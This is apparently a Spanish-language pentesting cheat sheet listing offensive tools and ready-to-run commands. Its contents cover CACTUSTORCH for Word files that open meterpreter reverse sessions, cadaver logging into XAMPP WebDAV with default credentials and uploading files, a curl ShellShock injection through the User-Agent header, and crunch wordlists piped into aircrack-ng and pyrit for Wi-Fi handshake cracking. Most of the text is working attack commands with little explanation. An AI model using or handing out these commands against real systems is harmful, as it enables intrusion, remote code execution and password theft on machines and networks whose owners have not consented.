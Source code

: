  

### CACTUSTORCH 
FrameWork que permite la generación de archivos word capaces de devolver session reversa de tipo meterpreter. 

 

### Cadaver 
para conectarse a servicios webdav 

```bash
$cadaver http://<ip>/webdav 
login to the XAMPP servers WebDAV folder  
cadaver http://<REMOTE HOST>/webdav/ 
user: wampp 
pass: xampp  
upload a file to the webdav folder  
put /tmp/helloworld.txt  
browse to your uploaded file  
load URL, http://<REMOTE HOST>/webdav/helloworld.txt, in browser 
```

Desde <http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html>  


### Cewl 
(Accent Keyword Extractor) extrae las palabras de una página web y genera un diccionario 
```bash
cewl <url> -d 0 -m 6 -w <nombre.dic> 
```

 

### ShellShock con curl 
```bash
curl -H "User-Agent: () { :;}; echo; <comando>" http://hello.com/cgi-bin/<cualquier ejecutable que se encuentre aquí> 
```

### CertUtil 
<https://www.hackingarticles.in/windows-for-pentester-certutil/ >

### CUPP 
crea diccionario en función de un cuestionario para perfilar. (git clone https://github.com/Mebus/cupp.git) 

### CURL 
ver detalle 

### Crunch 
Crea password para hacer diccionarios 

```bash
crunch 8 8 -t telsur%% | aircrack-ng -w - test-01.cap -e something 
crunch 8 8 0123456789 | pyrit -r msc-01.cap -i - attack_passthrough 
crunch 6 7 eghotu0134 | perl -ne 'print unless /([a-z]).*\1/' > wordlist.txt 
crunch 8 8 987 -t @%%%%%%% -p +569 -o numeros.txt  #genera números de celulares chilenos
```
